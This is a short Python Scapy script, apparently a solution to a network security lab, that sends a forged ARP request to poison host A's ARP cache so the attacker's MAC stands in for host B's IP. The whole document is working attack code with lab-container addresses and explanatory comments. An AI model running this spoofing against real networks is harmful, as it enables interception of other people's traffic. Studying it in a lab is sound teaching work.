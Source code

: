     from scapy.all import Ether, ARP, sendp

    # Define the IP and MAC addresses based on your settings.txt
    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"
    IP_B = "10.9.0.6"
    # MAC_B is not strictly needed for this packet but good practice
    MAC_B = "02:42:0a:09:00:06"
    MAC_M = "02:42:0a:09:00:69" # Attacker's MAC

    print("--- Sending Malicious ARP Request ---")
    print(f"Spoofing ARP Request: {IP_B} is at {MAC_M}")
    print(f"Targeting Host A ({IP_A}) at MAC {MAC_A}")

    # Construct the Ethernet frame
    # Source MAC is the attacker's MAC (MAC_M)
    # Destination MAC is Host A's MAC (MAC_A)
    ether = Ether(src=MAC_M, dst=MAC_A)

    # Construct the ARP packet
    # op=1 signifies an ARP Request
    # hwsrc = Sender MAC -> Attacker's MAC (MAC_M)
    # psrc  = Sender IP  -> IP we want to impersonate (IP_B)
    # hwdst = Target MAC -> Ignored in request (00:00:00:00:00:00)
    # pdst  = Target IP  -> IP address being queried (IP_A)
    arp = ARP(op=1, hwsrc=MAC_M, psrc=IP_B, hwdst="00:00:00:00:00:00", pdst=IP_A)

    # Combine Ethernet and ARP layers
    packet = ether/arp

    # Send the packet at Layer 2
    # Use the correct interface name inside the container (usually eth0)
    sendp(packet, iface="eth0", verbose=False)
